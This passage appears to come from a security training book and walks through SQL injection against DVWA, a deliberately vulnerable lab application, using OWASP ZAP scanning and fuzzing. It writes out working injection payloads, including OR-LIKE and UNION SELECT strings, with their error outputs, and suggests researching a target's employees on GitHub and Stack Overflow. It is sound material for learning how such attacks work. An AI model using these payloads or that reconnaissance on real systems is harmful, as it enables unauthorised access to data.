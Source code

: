 {icon=bomb}
G> ## The Play
G>
G> In your Kali Linux box, run owasp-zap.  
G> If chromium is not already running, run it and setup foxyproxy for chrome using the burp proxy we set-up in the [Tooling Setup](#tooling-setup-kali-linux-tools-i-use-that-need-adding-to-kali-linux-chromium-extensions-foxyproxy-standard) chapter. Zap is now recording your browsing.
G>
G> Once you have started the VM and browsed to it, select the DVWA and log in as  
G> user: "user", password "user". Make sure the Security Level is set to low.
G>
G> Navigate to the SQL Injecton page and enter `1` in the input box.
G>
G> In Zap: Right click on dvwa -> Attack -> Active Scan -> Start Scan
G>
G> When the scan has finished: go to the Alerts tab -> Select SQL Injection -> look at the request and response.  
G> See Zap used a union query, but response said "The used SELECT statements have a different number of columns". Which means if we use the correct number of columns we will have success.  
G>
G> In Request tab, select input parameter -> right click and select Fuzz -> Payloads -> Add -> Select File Fuzzers from "Type" dropdown. jbrofuzz->SQL Injection->SQL Injection -> Add -> OK -> Start Fuzzer
G>
G> Notice the `x' OR full_name LIKE '%bob%` in the Fuzzer tab?
G>
G> Then try the following in dvwa input:
G>
G> `x' OR full_name LIKE '%bob%`  
G> Output: Tells us we are in a where clause and I had an unknown column name.  
G> Thanks MySQL error reporting!
G>
G> Try the following queries:  
G> `x' OR first_name LIKE '%bob%`     # This works  
G> `x' OR last_name LIKE '%smith%`    # This works  
G> `x' OR first_name LIKE '%`         # And as expected, we get what we think are all users.
G>
G> Also the recon stage may tell us a lot about naming conventions and more. Once you know who the employees are:  
G> Search stackoverflow, github, etc for tidbits. Also [gitrob](https://github.com/michenriksen/gitrob)  
G> As we try different things, we learn more about naming conventions.  
G> You may also be able to find out about the target organisations naming conventions by looking around the internet. Github, Bitbucket, Stackoverflow and many other sites usually yield useful information.
G>
G> `x' OR user LIKE '%`               # This works  

{icon=bomb}
G>
G> I thought the query on the server looked something like this:  
G> `SELECT ID, first_name, last_name FROM users WHERE ID = ''`
G>
G> Time to work out what the table name is.
G>
G> Lets try users. I'm thinking that the full query will look like:  
G> `SELECT ID, first_name, last_name FROM users WHERE ID = '1' UNION SELECT ID, first_name, last_name FROM users WHERE first_name LIKE '%'`  
G> Inject query:  
G> `1' UNION SELECT ID, first_name, last_name FROM users WHERE first_name LIKE '%`  
G> Output: Unknown column 'ID'  
G> Lets fix that:  
G> `1' UNION SELECT user_id, first_name, last_name FROM users WHERE first_name LIKE '%`  
G> Output: "The used SELECT statements have a different number of columns"  